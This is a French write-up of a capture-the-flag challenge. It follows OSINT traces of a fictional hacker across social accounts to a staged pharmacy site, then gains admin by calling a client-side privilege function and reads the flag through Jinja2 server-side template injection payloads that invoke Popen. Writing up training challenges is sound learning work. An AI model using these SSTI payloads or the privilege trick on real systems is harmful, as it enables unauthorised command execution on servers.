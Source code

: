 # RedTeam
#### _OSINT + Pentest_

### Étape n°1

**Énoncé** : _I setup a website to challenge your skill as a pentester
Find me over the Internet as I stand by the nickname Zer0DayH4ckz0r
If you reach my website you should be able to gain control of a server
You will then need to go deeper and find a pivot
Finally if your are good enough you will send me my own password as a NTLM hash
Good luck!_

Notre objectif est donc de trouver le site de ce fameux Zer0DayH4ckz0r, on tape alors ce pseudo sur Google. On tombe sur le [compte Twitter](https://twitter.com/Zer0DayH4ckz0r) du "hacker". En descandant tout en bas de la liste de ses tweets, on tombe sur ce message : 

![](twitter.png)

On a donc le [compte Github](https://github.com/Zer0DayH4ckz0r) du hacker. On regarde ses dépôts et on remarque qu'ils viennent tous de dépôts externes. En regardant les commits du hacker sur ses dépôts, on tombe sur quelque chose de très intéressant :

![](github.png)

On s'empresse d'essayer ces identifiants sur Instagram mais ça ne fonctionne pas, on tape alors le pseudo du hacker sur Instagram et on tombe sur son [compte](https://www.instagram.com/zer0dayjld/) : 

![](instagram.png)

On regarde toutes ses photos et leur description mais il n'y a rien d'intéressant aux premiers abords. En regardant de plus près, on remarque une photo sur laquelle on peut voir des écrans :

![](photo_insta.png)

On tape le nom "PharmaHealthyCat" sur Google et on tombe sur un [compte Linkedin](https://www.linkedin.com/company/pharmahealthycat/about/). En lisant sa description, on comprend vite que c'est un faux compte, ce qui montre que l'on est sur la bonne piste. On se rend sur le site web de cette "pharmacie". En allant dans la catégorie "Blog", on tombe sur le post suivant : 
```Flag```
```Good Job the flag is RUNXe04xY2tONG1lXzFzX0cwT2RfSWZfWTB1X0Qwbid0X1RocjB3fQ==```

**FLAG** : ECW{N1ckN4me_1s_G0Od_If_Y0u_D0n't_Thr0w}

### Étape n°2

**Énoncé** : _You found the website, this is a good start,
Now you need to get in!_

![](website.png)

En regardant le code source de toutes les pages du site, on tombe sur un fichier javascript très intéressant, et notamment ce bout de code :
```js
function submit3(id_user) { // eslint-disable-line no-unused-vars
  $.ajax({
    type: 'POST',
    url: '/home/users',
    dataType: 'json',
    data: {"id_user":id_user},
    success: function(result) {
      if (result == 'duplicate') {
        const message = 'You are not admin man !';
        alertify.notify(message, 'error', 5);
      } else {
        alertify.notify('User privileges successfuly changed', 'success', 5);
        window.location.reload(true);
      }
    },
    error: function(result) {
      const message = 'You are not admin man !';
      alertify.notify(message, 'error', 5);
    },
  });
}
```
Cette fonction est particulièrement intéressante car elle permet de modifier les privilèges d'un utilisateur. On trouve aussi, grâce à l'outil [dirb](https://www.kali.org/tools/dirb/) le path ```/home/users```, qui permet de récupérer la liste des utilisateurs. En regardant dans le code source, on trouve notre identifiant : 
![](id.png)
Il ne nous reste plus qu'à utilisater la console de notre navigateur et d'appeler la fonction submit3 avec notre identifiant pour devenir administrateur.

Une fois administrateur, une nouvelle partie du site nous est proposée : 
![](admin.png)
Après avoir regarder les sections "Add Blog Post" et "Modify Users" qui ne donnent rien, on s'intéresse à "Template Builder". On identifie une SSTI (Server Side Template Injection) en tapant {{7*7}} qui s'exécute sur le template créé. On identifie la technologie utilisée grâce à cette image : 
![](ssti.png)
Il s'agit de Jinja2. On injecte alors du code permettant de récupérer des informations puis de lire le flag.
```python
{{ ''.__class__.__mro__[2].__subclasses__() }}
{{ ''.__class__.__mro__[1].__subclasses__()[417]("ls",stdout = -1, shell=True).communicate() }}
{{ ''.__class__.__mro__[1].__subclasses__()[417]("cat flag.txt",stdout = -1, shell=True).communicate() }}
```
La première ligne sert à connaître l'index de la classe ```Popen``` dans la liste des classes de Python. La deuxième nous permet de lancer la commande ```ls``` sur la machine cible et la troisième nous permet de lire le flag.

**FLAG** : ECW{EaSy_P4rt_D0ne_C0ngratz}

**Il y avait pour ce challenge deux autres parties que je n'ai pas pu finir avant la fin de l'épreuve.**



